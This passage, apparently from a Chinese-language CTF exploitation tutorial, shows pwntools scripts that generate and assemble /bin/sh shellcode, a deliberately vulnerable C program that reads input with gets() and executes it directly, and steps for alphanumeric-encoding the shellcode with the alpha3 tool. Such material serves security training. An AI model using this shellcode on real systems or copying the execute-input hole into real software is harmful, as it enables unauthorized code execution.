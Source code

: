 
```python
from pwn import *
context.arch = 'i386'  # 64位改为amd64
sc = shellcraft.sh()
print(asm(sc))  # asm要在linux才能用
```



### 		2. alpha shellcode

```c
#include <stdio.h>
#include <string.h>

void vuln(){
	char shellcode[0x400];
	gets(shellcode);
	int i;
    // 检查输入的内容
	for(i = 0; i < strlen(shellcode); i++){
		if (!isalpha(shellcode[i]) && !isdigit(shellcode[i]))
			exit(1);
	}
	((void (*)())shellcode)();
}

int main(){
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	write(1, "what's your name?\n", 18);
	vuln();
	return 0;
}
```

下载alpha项目

```sh
git clone https://github.com/TaQini/alpha3.git
```

把shellcode写入到一个文件里

```python
from pwn import *
context(arch='i386', os='linux')

shellcode = shellcraft.sh()
payload = asm(shellcode)
with open('shellcode_x86', 'wb') as f:  # 模式为wb
    f.write(payload)
```

使用alpha脚本将shellcode编成alpha_shellcode
